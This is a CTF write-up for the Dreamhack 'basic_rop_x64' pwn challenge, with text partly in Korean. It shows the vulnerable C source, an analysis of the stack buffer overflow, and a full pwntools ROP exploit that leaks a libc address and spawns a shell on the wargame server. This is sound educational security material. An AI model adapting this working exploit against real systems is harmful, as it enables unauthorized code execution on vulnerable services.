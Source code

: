 # basic_rop_x64 - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: basic_rop_x64.c, basic_rop_x64(ELF), libc.so.6
- tools: gdb(pwndbg), checksec, ROPgadget 
## Brief Description
이 문제는 서버에서 작동하고 있는 서비스(basic_rop_x64)의 바이너리와 소스 코드가 주어집니다.
Return Oriented Programming 공격 기법을 통해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec --file=basic_rop_x64
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow)
``` c
char buf[0x40] = {};

read(0, buf, 0x400);
```
`buf`의 크기는 0x40인 반면, `read`로 `buf`에서 읽어오는 크기는 0x400로 한참 초과하여 BOF 취약점이 발생한다.  
## Exploit
### Strategy
PIE, 카나리 비활성화와 함께 BOF 취약점이 있는 환경은 ROP 공격을 수행하기에 적합하다. 공격 시나리오는 다음과 같다.  
1. libc base leak
2. system addr
3. "/bin/sh" addr
4. ret2main
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| buf | -0x40 |
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 9568)
context.arch = "amd64"

e = ELF('./basic_rop_x64')
libc = ELF('x64/libc.so.6')
r = ROP(e)

write_plt = e.plt['write']
write_got = e.got['write']
read_plt = e.plt['read']
read_got = e.got['read']
main = e.symbols['main']

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

# Exploit
# write(1, read_got, 4) -> libc base leak
payload = b''
payload += b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)
payload += p64(main) # ret2main

p.send(payload)
p.recvuntil(b'A' * 0x40)

# libc base
read = u64(p.recvn(6) + b'\x00'*2)
libc_base = read - read_offset
system = libc_base + system_offset
binsh = libc_base + sh_offset
log.info(f'system: {system}')
log.info(f'sh: {binsh}')

# system("/bin/sh") 
payload = b''
payload += b'A' * 0x48
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.recvuntil(b'A' * 0x40)

# interactive
p.interactive()
```